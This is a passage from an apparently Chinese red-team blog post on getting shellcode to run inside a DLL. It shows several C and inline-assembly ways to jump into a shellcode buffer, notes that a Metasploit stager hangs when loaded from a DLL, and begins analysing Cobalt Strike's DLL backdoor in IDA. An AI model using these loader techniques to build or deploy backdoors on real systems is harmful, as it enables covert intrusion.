     { 
      ((void(*)(void))&shellcode)(); 
    } 
    void RunShellCode_3() //第三种方法 
    { 
      __asm 
      { 
        lea eax, shellcode; 
        jmp eax; 
      } 
    } 
    void RunShellCode_4() //第四种方法 
    { 
      __asm 
      { 
        mov eax, offset shellcode; 
        jmp eax; 
      } 
    } 
    void RunShellCode_5() //第五种方法 
    { 
      __asm 
      { 
        mov eax, offset shellcode; 
        _emit 0xFF; 
        _emit 0xE0; 
      } 
    }
{% endhighlight %}
    

尝试手法一，能够在EXE项目中执行，但是不能在DLL中执行，在DLL中执行的话，程序会卡在Stage步骤，在MSF监听器发送后续的数据之后，并不会处理，原因尚未知。

使用的代码

![img](http://ww3.sinaimg.cn/large/006tNc79ly1g36r3fdad9j30mz0cy3yp.jpg)

卡在STAGE步骤

![img](http://ww1.sinaimg.cn/large/006tNc79ly1g36r38oq86j30rv03b749.jpg)

## 探索之路二：

尝试了网上的一些思路没有成功后，我们就开始好奇MSF，CS这些是采用了什么样的方法来运行shellcode的，为了解决这个疑问，我们分别用MSF，CS生成DLL后门，然后扔入IDA中分析。

我们先看CS生成的32位后门，找到关键点，简直~，怪不得在某些环境就启动不得，这不是跟我们上面的大同小异么。。。

 

![img](http://ww3.sinaimg.cn/large/006tNc79ly1g36r33jeuwj30iy0650sp.jpg)

 

![img](http://ww3.sinaimg.cn/large/006tNc79ly1g36r37rg38j30li07haa5.jpg)
